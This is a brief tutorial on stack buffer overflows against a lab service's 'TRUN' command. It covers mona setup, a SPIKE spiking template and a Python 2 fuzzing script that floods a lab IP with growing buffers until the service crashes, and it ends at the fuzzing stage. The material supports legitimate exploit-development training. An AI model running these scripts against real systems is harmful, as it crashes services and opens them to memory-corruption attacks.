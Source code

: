 ################
Buffer Overflows
################

Make it Easy // _ https://catharsis.net.au/blog/basic-buffer-overflow-guide/ _
----


Mona Setup
==========

In Immunity Debugger, type the following to set a working directory for mona.
To create Log Data
> !mona config -set workingfolder c:\mona\%p

Spiking
=======

Spiking is done to figure out what is vulnerable. 
We can use a tool called “generic_send_tcp” to generate TCP connections with the vulnerable application. :
> generic_send_tcp argc=1
Let's Spiking For BOF
Create File "Spiking.spk"
and put This code inside it
```
s_readline();
s_string("TRUN ");
s_string_variable("0");
```

Now Let's To Work With it:
> generic_send_tcp <IP> <PORT> <FILE.spk> 0 0

You Will take 41414141 in Immunity Debugger that's mean "AAAA" and there a vulnerability

Fuzzing
=======

Once we have figured out which command is vulnerable (in this case it is “TRUN” command), 
we need to find approximately at how many bytes the application is crashing.

_fuzzing script_
```
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = "A" * 100

while True:
        try:

                s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                s.connect(('172.16.70.134',9999))

                s.send(('TRUN /.:/' + buffer))
                s.close
                sleep(1)
                buffer = buffer + "A"*100

        except:
                print "Fuzzing crashed at %s bytes" % str(len(buffer))
                sys.exit()
```
